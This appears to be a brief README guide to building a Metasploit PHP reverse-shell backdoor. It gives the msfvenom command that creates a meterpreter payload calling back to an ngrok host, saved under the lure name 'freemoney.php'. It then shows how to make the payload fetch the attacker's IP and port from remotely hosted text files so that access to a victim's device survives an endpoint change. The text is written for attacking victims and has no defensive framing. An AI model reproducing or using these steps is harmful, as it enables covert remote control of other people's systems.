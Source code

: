 # METASPLOIT PHP BACKDOOR

# create your php payload with  Metasploit

ex - msfvenom -p php/meterpreter/reverse_tcp lhost=0.tcp.ngrok.io lport=ngrokport R> freemoney.php 

After creating payload php , open it in a editor .
Then you will find something like 

 * Default metasploit payload 'php/meterpreter/reverse_tcp'
 * $ip = 0.tcp.ngrok.io;
 * $port = xxxx;

# Replace these above $ip , $port lines with these .

$ip = file_get_contents("uploadedurl/ip.txt");
$port = file_get_contents("uploadedurl/port.txt");

# Your Text Files Must be contain : 

* `ip.txt (contains "0.tcp.ngrok.io")`
* `port.txt (contains "port")`

and upload them to a hosting or online storage .

# Why we use file_get_contents?

Think , we installed our payload in victim device but it is not listening . That may be a port forwarding or a other problem . Now we can't change our port or ip to start a new listening in same payload .

# Here is the Solution :

With the file_get_contents it reads the new contents of the file we uploaded . so only thing we need to do is changing the host & port. Then payload will start relistening according to your new data .Then we can get our session back what ever the problem . 


